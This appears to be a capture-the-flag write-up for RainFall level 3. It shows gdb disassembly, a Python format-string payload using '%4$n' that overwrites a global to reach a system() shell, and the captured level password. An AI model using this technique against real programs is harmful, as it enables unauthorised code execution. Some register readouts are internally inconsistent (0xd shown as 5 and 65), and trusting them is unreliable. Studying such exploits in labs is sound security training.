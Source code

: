# Level3

    (gdb) disas main
    Dump of assembler code for function main:
    0x0804851a <+0>:	push   %ebp
    0x0804851b <+1>:	mov    %esp,%ebp
    0x0804851d <+3>:	and    $0xfffffff0,%esp
    0x08048520 <+6>:	call   0x80484a4 <v>
    0x08048525 <+11>:	leave  
    0x08048526 <+12>:	ret    
    End of assembler dump.
    (gdb) disas v
    Dump of assembler code for function v:
    0x080484a4 <+0>:	push   %ebp
    0x080484a5 <+1>:	mov    %esp,%ebp
    0x080484a7 <+3>:	sub    $0x218,%esp
    0x080484ad <+9>:	mov    0x8049860,%eax
    0x080484b2 <+14>:	mov    %eax,0x8(%esp)
    0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
    0x080484be <+26>:	lea    -0x208(%ebp),%eax
    0x080484c4 <+32>:	mov    %eax,(%esp)
    0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484cc <+40>:	lea    -0x208(%ebp),%eax
    0x080484d2 <+46>:	mov    %eax,(%esp)
    0x080484d5 <+49>:	call   0x8048390 <printf@plt>
    0x080484da <+54>:	mov    0x804988c,%eax
    0x080484df <+59>:	cmp    $0x40,%eax
    0x080484e2 <+62>:	jne    0x8048518 <v+116>
    0x080484e4 <+64>:	mov    0x8049880,%eax
    0x080484e9 <+69>:	mov    %eax,%edx
    0x080484eb <+71>:	mov    $0x8048600,%eax
    0x080484f0 <+76>:	mov    %edx,0xc(%esp)
    0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
    0x080484fc <+88>:	movl   $0x1,0x4(%esp)
    0x08048504 <+96>:	mov    %eax,(%esp)
    0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
    0x0804850c <+104>:	movl   $0x804860d,(%esp)
    0x08048513 <+111>:	call   0x80483c0 <system@plt>
    0x08048518 <+116>:	leave  
    0x08048519 <+117>:	ret    
    End of assembler dump.

The main simply calls the v function. It simply prints back the characters read from the stdin with printf.

We can also see a check that will run a shell if the value is set to 0x40 (hex) / 64 (dec), but we can't interact with it directly.

However, there is no formatted string during the printf call, the argument is instead passed directly to printf (cf source file). This is a vulerability that we can exploit.

With a specific input, we can print the content of the stack : 

    level3@RainFall:~$ ./level3
    AAAA BBBB %x %x %x %x %x %x %x %x %x %x
    AAAA BBBB 200 b7fd1ac0 b7ff37d0 41414141 42424220 78252042 20782520 25207825 78252078 20782520

We see that the 4th %x prints the beginning of our input. A very interesting printf modifier is %n. This modifier won't print anything, but will store the length of the string in the pointed location. And this location must be a pointer to a signed int. Luckily for us, a memory address can be used.

If we go back to the v function :

    [...]
    0x080484da <+54>:	mov    0x804988c,%eax
    0x080484df <+59>:	cmp    $0x40,%eax
    [...]

This code will move the value stored in 0x0804988c to the EAX register, then compare this register with the value 0x40. That means, if we can manually set the value stored in 0x804988c to 0x40, the check will succeed and we'll be able to run the shell.

First of all, let's send the address above to see if our idea works.

    $ python -c 'print "\x8c\x98\x04\x08"+"%4$n"' > payload

The syntax '%4$n' will change the 4th value without having to use the previous ones, since we only want to change this one.
We set a breakpoint rihght after the printf call, to see if we successfully overflowed the register :

    (gdb) b *0x080484da
    Breakpoint 1 at 0x80484da
    (gdb) run < payload 
    Starting program: /home/user/level3/level3 < payload
    �

    Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	5
    ecx            0x0	0
    edx            0x0	0
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff510	0xbffff510
    ebp            0xbffff728	0xbffff728
    esi            0x0	0
    edi            0x0	0
    eip            0x80484da	0x80484da <v+54>
    eflags         0x200282	[ SF IF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

Our string was 5 characters long (%4$n is a modifier but is included as well, however it won't count for some reason), and we got a value of 5. To have a size of 64, we simply need to add 60 more characters.

    $ python -c 'print "\x8c\x98\x04\x08"+"Y"*60+"%4$n"' > payload

Let's check:

    [...]
       Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	65
    ecx            0x0	0
    edx            0x0	0
    [...]
    (gdb) c
    Continuing.
    Wait what?!
    [Inferior 1 (process 13240) exited normally]

Now we run it without gdb:

    level3@RainFall:~$ cat payload - | ./level3 
    �YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
    Wait what?!
    cd ../level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
